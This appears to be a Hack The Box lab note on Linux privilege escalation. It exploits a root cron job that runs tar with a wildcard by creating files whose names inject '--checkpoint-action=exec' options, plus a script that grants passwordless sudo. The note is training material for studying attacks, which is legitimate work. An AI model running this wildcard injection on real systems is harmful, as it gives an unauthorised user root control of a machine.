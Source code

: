 #Linux_PrivilegeEscalation 

```Bash
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

The `tar` command has the two following options. If we use tar with the `*` wildcard as follows:

```Bash
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

We can exploit it by creating the following files in the `/home/htb-student` directory:

```Bash
echo "htb-student ALL=(root) NOPASSWD: ALL" > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > "--checkpoint=1"
 ```
 
